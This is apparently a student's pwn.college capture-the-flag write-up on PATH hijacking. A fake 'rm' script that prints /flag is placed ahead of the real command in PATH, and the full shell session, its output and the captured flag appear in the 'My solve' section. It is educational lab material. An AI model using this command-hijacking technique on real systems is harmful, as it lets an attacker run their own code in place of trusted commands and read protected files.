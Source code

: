 # Hijacking Commands
My task is to stop /challenge/run from deleting the flag by hijacking the rm command. I'll create my own harmless script, name it rm, and place it in a new directory.
Then, I'll prepend this directory to the beginning of my PATH variable so that my fake rm gets executed instead of the real one, saving the flag.

## My solve
**Flag:** `pwn.college{QKYs7w1HbdDOcMC4dm9IJZH2WQw.QX3cjM1wiN4AzNzEzW}`

```
hacker@path~hijacking-commands:~$ mkdir ~/fake_commands
hacker@path~hijacking-commands:~$ echo -e '#!/bin/bash\ncat /flag' > ~/fake_commands/rm
hacker@path~hijacking-commands:~$ export PATH="$HOME/fake_commands:$PATH"
/challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/fake_commands/rm. Executing!
pwn.college{QKYs7w1HbdDOcMC4dm9IJZH2WQw.QX3cjM1wiN4AzNzEzW}
```

## What I learned
I learned how to perform a PATH hijacking attack. Since the shell searches PATH directories in order, I can create a fake command (like a harmless rm script) and put its directory at the front of the PATH. 
This tricks the system into running my script instead of the real command, giving me control over its execution.

## References 
I used the resources available on pwn.college as references.
